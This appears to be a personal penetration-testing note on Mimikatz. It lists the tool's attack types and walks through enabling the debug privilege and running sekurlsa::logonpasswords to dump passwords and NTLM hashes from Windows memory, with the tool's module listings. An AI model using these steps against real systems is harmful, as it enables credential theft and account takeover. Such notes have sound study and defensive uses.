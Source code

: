 # Mimikatz Overview & Credential Dumping
> 29.07.2024

---

https://github.com/gentilkiwi/mimikatz
## Overview
- Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
- Dump credentials stored in memory
- Credential Dumping, Pass-The-Hash, Over-Pass-The-Hash, Pass-The-Ticket, Silver Ticket, Golden Ticket, etc.
##  Credential Dumping

**Start up mimikatz with local administrative privilege:**
```powershell
.\mimikatz.exe
```

**List privileges:**
```powershell
privilege::

Module :        privilege
Full name :     Privilege module

           debug  -  Ask debug privilege
          driver  -  Ask load driver privilege
        security  -  Ask security privilege
             tcb  -  Ask tcb privilege
          backup  -  Ask backup privilege
         restore  -  Ask restore privilege
          sysenv  -  Ask system environment privilege
              id  -  Ask a privilege by its id
            name  -  Ask a privilege by its name
```

**Enable debug privilege:**
```powershell
privilege::debug

Privilege '20' OK
```

**Module: sekurlsa:**
```powershell
sekurlsa::

Module :        sekurlsa
Full name :     SekurLSA module
Description :   Some commands to enumerate credentials...

             msv  -  Lists LM & NTLM credentials
         wdigest  -  Lists WDigest credentials
        kerberos  -  Lists Kerberos credentials
           tspkg  -  Lists TsPkg credentials
         livessp  -  Lists LiveSSP credentials
         cloudap  -  Lists CloudAp credentials
             ssp  -  Lists SSP credentials
  logonPasswords  -  Lists all available providers credentials
         process  -  Switch (or reinit) to LSASS process  context
        minidump  -  Switch (or reinit) to LSASS minidump context
         bootkey  -  Set the SecureKernel Boot Key to attempt to decrypt LSA Isolated credentials
             pth  -  Pass-the-hash
          krbtgt  -  krbtgt!
     dpapisystem  -  DPAPI_SYSTEM secret
           trust  -  Antisocial
      backupkeys  -  Preferred Backup Master keys
         tickets  -  List Kerberos tickets
           ekeys  -  List Kerberos Encryption Keys
           dpapi  -  List Cached MasterKeys
         credman  -  List Credentials Manager
```

**Dump password / ntlm-hash from memory:**
```powershell
sekurlsa::logonpasswords
```

